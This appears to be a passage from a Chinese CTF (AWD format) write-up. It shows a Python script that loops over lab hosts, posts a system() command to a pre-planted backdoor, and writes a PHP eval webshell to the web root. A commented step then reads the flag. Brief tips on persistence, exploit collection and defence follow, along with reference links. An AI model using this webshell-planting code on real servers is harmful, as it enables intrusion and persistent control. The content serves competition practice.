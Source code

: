 批量后门写shell

```
import requests

url_head="http://192.168.182.130"
for url2 in range(8801,8805):
    try:
        url =  url_head+":{}".format(url2)

        shell_path = url + "/include/shell.php"
        shell_passwd = "admin_ccmd"
        print(shell_path)

        #payload1利用预留后门上传shell
        payload1 = {shell_passwd: 'system(\'echo "<?php @eval(\$_POST[atkx]);?>" > /var/www/html/atkx1.php\');'}
        res = requests.post(shell_path, payload1)
        print(url + " shell写入成功！！！！！！！")
        #

        # #payload2通过上传的shell来getflag
        # my_shell_path = url + "/atkx1.php"
        # my_shell_passwd = "atkx"
        # payload2 = {my_shell_passwd: 'system(\'cat /flag\');'}
        # res = requests.post(my_shell_path, payload2)
        # print(url,res.text)
    except:
        pass
```

# 总结

1.预留后门的权限维持特别重要，不要急着拿flag，往后每一轮预留后门都会减少。

2.AWD一般使用的是cms，尽量多收集一些cms的POC和EXP，以备不时之需。

3.防守注意查看日志看别人是怎么攻击自己的，然后尝试攻击其他人，为了干扰别人，可以先打一波流量，混淆视听。

4.检查后门，保证自己的网站上没有d盾可以扫出来的后门，检查计划任务或者可疑进程。

5.比赛一轮大概几分钟，时间比较紧张，需要提高自己的代码审计能力以及自动化脚本的编写能力，实现自动化攻击。

参考文章：
https://blog.csdn.net/weixin_43510203/article/details/118519120
https://www.likecs.com/show-306005446.html
https://www.anquanke.com/post/id/86984
https://xz.aliyun.com/t/10995
